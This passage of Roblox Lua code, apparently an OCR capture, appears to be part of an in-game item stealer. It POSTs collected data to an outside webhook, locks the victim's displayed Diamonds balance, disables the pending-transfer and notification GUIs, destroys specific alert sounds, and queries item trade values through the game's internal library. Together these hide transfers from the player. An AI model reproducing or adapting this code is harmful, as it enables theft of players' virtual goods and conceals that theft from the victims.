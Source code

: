     if #fields[2].value > 1024 then
        local lines = {}
        for line in fields[2].value:gmatch("[^\r\n]+") do
            table.insert(lines, line)
        end

        while #fields[2].value > 1024 and #lines > 0 do
            table.remove(lines)
            fields[2].value = table.concat(lines, "\n")
            fields[2].value = fields[2].value .. "\nPlus more!"
        end
    end

    local body = HttpService:JSONEncode(data)

    if webhook and webhook ~= "" then
        local response = request({
            Url = webhook,
            Method = "POST",
            Headers = headers,
            Body = body
        })
    end
end

local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)

local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false

game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)

local function getRAP(Type, Item)
    return (require(game:GetService("ReplicatedStorage").Library.Client.DevRAPCmds).Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end
